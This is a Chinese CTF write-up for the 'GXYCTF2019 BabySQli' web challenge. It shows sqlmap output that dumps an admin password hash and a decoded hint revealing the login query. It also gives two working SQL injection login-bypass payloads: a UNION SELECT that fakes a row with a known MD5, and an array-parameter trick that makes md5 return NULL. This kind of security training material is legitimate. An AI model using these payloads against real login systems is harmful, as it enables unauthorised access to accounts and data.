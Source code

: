 ```yaml
---
layout: post
title: "[GXYCTF2019]BabySQli"
date:   2024-9-29
tags: [SQL注入, CTF, WEB]
comments: true
author: MK-KM1542
---
```


***本题考点：联合查询所查询的数据不存在时，联合查询会构造一个虚拟的数据***

两个输入框，输入username和password

上sqlmap，得到

```sql
Database: web_sqli
Table: user
[1 entry]
+----+----------------------------------+----------+
| id | passwd                           | username |
+----+----------------------------------+----------+
| 1  | cdc9c819c7f8be2628d4180669009d28 | admin    |
+----+----------------------------------+----------+
```

储存了passwd的hash值，不能爆破

说明后台代码是将传入的密码进行了hash加密，然后与数据库中的hash值进行比对，如果相同，则登录成功。

先随便输入，查看回显页面源代码，发现有东西

```html
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5-->
```

base32+base64解码后得到

```sql
select * from user where username = '$name'
```

我们如果给name的值不是admin,然后提示错误，wrong user!

传admin,提示wrong pass!

***本题考点：联合查询所查询的数据不存在时，联合查询会构造一个虚拟的数据***

md5(1)=c4ca4238a0b923820dcc509a6f75849b

```text
name=1' union select 1,'admin','c4ca4238a0b923820dcc509a6f75849b'#&pw=1
```

或者md5不能处理数组，如果是数组则会返回NULL

构造payload

```text
name=1' union select 1,'admin',NULL#&pw[]=1
```

